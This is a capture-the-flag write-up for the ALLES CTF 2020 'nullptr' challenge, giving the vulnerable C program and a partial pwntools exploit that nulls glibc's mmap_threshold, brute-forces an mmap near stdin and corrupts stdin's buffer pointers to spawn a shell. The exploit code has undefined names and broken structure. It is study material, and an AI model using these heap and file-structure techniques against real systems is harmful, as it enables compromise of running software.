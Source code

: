 ```yaml
---
layout: "post"
title: "nullptr - ALLES CTF 2020"
date: 2020-09-09
tags: [Heap, File Structures, CTF]
---
```



**tl;dr**

+ Overwrite `mmap_threshold` with null and trim top chunk size.
+ Null out last 2 bytes of stdin's `_IO_buf_base` and brute force to get allocation on stdin.
+ Overwrite one of the jump tables with win function to get shell.

<!--more-->

**Challenge Points:** 453
**Solves: ** 4

We had a really great time this weekend with this year's edition of Alles CTF. I spent most of my time working on the challenge nullptr and in this post , I'll be discussing the intended solution for the challenge.

**PS:** We could not solve this during the CTF but the exploit idea is worth sharing.

## Challenge description

To begin with , we'd been provided with a pretty simple c source code which has 2 functionalities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_me_out_of_this_mess() { execl("/bin/sh", "sh", NULL); }

int main(void) {
    unsigned long addr;
    int menuchoice;
    while (1) {
        printf("[1. view, 2. null, -1. exit]> \n"); fflush(stdout);
        scanf("%d", &menuchoice); getc(stdin);
        switch (menuchoice) {
        case 1:
            printf("view address> \n"); fflush(stdout);
            scanf("%lu", &addr); getc(stdin);
            printf("%p: %p\n", addr, *(void**)addr);
            break;
        case 2:
            printf("nuke address> \n"); fflush(stdout);
            scanf("%lu", &addr); getc(stdin);
            *(void**)addr = NULL;
            printf("ok!\n");
            break;
        case -1:
            printf("bye!\n");
            return 1;
        default:;
        }
    }
    return 0;
}

```

1. The view function prints the content of an address passed , hence we can be assured of all leaks ;).
2. The nuke function nulls out the content of an address passed.

Looks pretty simple doesn't it?

## Getting necessary leaks

Getting all required leaks is nothing but a trivial task.

Initially, we can directly get stack leak by passing any `non-numeric` value to scanf. Let's script it a bit.

```py

from pwn import *
import sys

HOST = 'dwadwda'
PORT = 123
LIBC = ELF("./libc.so.6",checksec = False)
while True:
    if(len(sys.argv)>1):
        io=remote(HOST,PORT)
        context.noptrace=True
    else:
        io=process('./nullptr',env = {"LD_PRELOAD" : "./libc.so.6"})

    reu = lambda a : io.recvuntil(a)
    sla = lambda a,b : io.sendlineafter(a,b)
    sl = lambda a : io.sendline(a)
    rel = lambda : io.recvline()
    sa = lambda a,b : io.sendafter(a,b)
    re = lambda a : io.recv(a)
    s = lambda a : io.send(a)

    def null(addr):
        sla(']> \n','2')
        sla('nuke address> \n',str(addr))

    def malloc(libc):
        base = libc + 0x1ea9b8
        null(base)

    if __name__=="__main__":
        sla(']> \n','1')
        reu('address> \n')
        s(p8(1))
        stack = int(re(14),16)
        libc = getdata(stack-0xd8) - 0x271e3
        code = getdata(stack-0x18) - 0x10ce
        log.info('stack = ' + hex(stack))
        log.info('libc = ' + hex(libc))
        log.info('code = ' + hex(code))
```

## Idea of exploitation

After carefully analyzing scanf's source code, sherl0ck came up with the idea of calling **malloc** again by `nulling` out `IO_buf_base`.

In the depths of scanf ,there resides a function called IO_doallocbuf.

```c
  if (fp->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_IO_save_base != NULL)
	{
	  free (fp->_IO_save_base);
	  fp->_flags &= ~_IO_IN_BACKUP;
	}
      _IO_doallocbuf (fp);
    }

```

The code is actually of the caller function of `_IO_doallocbuf` which is `_IO_new_file_underflow`.

It calls malloc with a fixed size of `blk_sizet` which is by default 0x1000 bytes.

From this point on , we were stuck , we tried nulling out the last 2 bytes of buf base in the hope of getting allocation at tcache structure , from there on we faked a 0x400 size arbitrary chunk in tcache and found another way to call malloc with size of 0x400 from stdout structure.

Well , getting allocation with stdout doesn't actually give us arbitrary write.

## The intended solution

Well , the intended solution is actually leveraging an mmap call from malloc. Let's see how this can be done.

+ Nulling out `mmap_threshold` with triggers a different code path in malloc.
+ Also , trimming top size by writing null misaligned finally calls mmap when malloc is invoked.

Now , all that we have to do is , brute force until an mmap happens near our stdin file structure and from there on , its a game over.

Let's take our script forward.

```py
        buf_base = libc + 0x1ea9b8
        input_buffer = getdata(buf_base)
        TARGET_REGION = libc + 0x1ea000
        TARGET_HOOK_OFFSET = 0xb70
        TARGET_STDIN_OFFSET = 0x980
        _IO_2_1_stdin_ = libc + LIBC.symbols['_IO_2_1_stdin_']
        mmap_threshold_ = libc + 0x1ea280
        MAIN_ARENA_TOP_CHUNK_PTR = libc_base + 0x1eabe0
        top_chunk = getdata(MAIN_ARENA_TOP_CHUNK_PTR + 8)
        _IO_stdfile_0_lock = libc_base + 0x1ed4d0
        __GI__IO_file_jumps = libc_base + 0x1ec4a0
        MASK = 0xffffffffffff0000
        if TARGET_REGION & MASK != TARGET_REGION:
            log.failure("Restart exploit")
            io.close()
        continue
        else:
            break
       #Null out top chunk partially keeping the inuse bit
       #Null out mmap_threshold and next malloc should call mmap
       null(mmap_threshold + 16) 
       null(top_chunk + 8 + 1)

       # malloc will now be mmap!
       # We keep calling mmap from malloc and bruteforce for getting allocation at stdin
       for _ in range(200):
           malloc(libc)
           input_buffer = getdata(_IO_2_1_stdin_ + 8 * 3)
           if (input_buffer & MASK) == TARGET_REGION:
               log.success('Hit')
               break

      
```

Once there's a hit , all that's left is to partially overwrite `IO_buf_base` and get allocation on stdin. Here , after getting allocation on stdin , we intend to overwrite malloc hook to get shell.

```py
        #Now we partially overwrite io buf base of stdin
        null(_IO_2_1_stdin_ + 8*7 - 6)
        _s = TARGET_STDIN_OFFSET
        data = p64(0xfbad2088) + p64(TARGET_REGION)*6 + p64(0)*5 + p64(0) + p8(0) + p64(_IO_stdfile_0_lock) + p32(0) + p64(__GI__IO_file_jumps)
        data = data.ljust(TARGET_HOOK_OFFSET,'x')

        sla(data)
        #overwritten malloc hook
        #call malloc to get shell
        malloc(libc)
        io.interactive()

```

### An alternative approach

We could be all lazy and let brute force do the work. A simpler yet time consuming approach would be to overwrite the last 3 bytes of stdin's `IO_buf_base` and wait for the magic to happen. Eventually , in one of the runs , it would match with binary bss and you get a direct write to GOT table.

## Conclusion

The challenge had really intersting concepts involved and we learnt quite alot. Kudos to the author Mrmaxmeier for the awesome challenge.

Here's the original script of the author - [Link](https://gist.github.com/Mrmaxmeier/830561d4a732b0af24bf29d685a9f74f)


